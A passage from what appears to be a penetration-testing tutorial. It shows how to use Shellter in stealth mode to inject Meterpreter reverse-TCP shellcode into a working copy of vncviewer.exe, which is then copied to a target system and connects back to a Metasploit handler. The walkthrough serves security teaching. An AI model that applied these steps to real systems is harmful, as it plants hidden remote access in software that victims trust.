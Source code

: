 Now that we've identified the legitimate executable that we would like to inject our shellcode into, we can begin the injection process. 

```
sudo wine shellter.exe
```

```
A
```

PE Target: This is the Portable Executable target, or the legitimate executable that you would like to inject your shellcode into. You need to specify the path to the executable.

```
/home/kali/Desktop/AVBypass/vncviewer.exe
```

It's going to make a backup, and it will store it under Shellter_Backups\vncviewer.exe

Stealth Mode, this is a very important step because what it's asking you is whether you want the executable to function as intended. For example, in this case, we are injecting the shellcode into vncviewer.exe. So it's asking us whether or not we want vncviewer to function normally when executed.

If we want that to happen, which I recommend that you do, I would enable Stealth Mode:

```
y
```

What that means is that whenever the target will click on the new vncviewer that we are going to be generating or that contains the injected shellcode, vncviewer will function as normal, but the shellcode will be executed in the background. 

It's then going to ask you for the payload that you'd like to use. So this is where the shellcode injection process comes into play.

```
[1] Meterpreter_Reverse_TCP [stager]
```

If you want to go ahead and encode a payload with msfvenom firtstly, or you want to generate a meterpreter payload and then encode it with msfvenom, you can do that and then specify a custom `C` option here, and then use that payload itself.

`L`: use a listed payload.

```
L
1
```

We now have vncviewer, but the new executable has the injected shellcode. Shellter takes a backup, it does that for a reason. Because the new executable is going to replace the one that was stored within the `/home/kali/Desktop/AVBypass/` directory. Remember, I copied over the legitimate vncviewer.exe to the AVBypass folder. And this is now the malicious executable. It'll then perform the injection. And it's going to replace the older one with the new malicious one. 

So I can now copy this over to the target system, and you'll see that it looks exactly like vncviewer. It'll function exactly like vncviewer. The only difference is that when it will be executed, it will execute the shellcode, our Meterpreter payload shellcode, and it'll then connect back to our reverse tcp handler that we will set up in the Metasploit Framework right now.
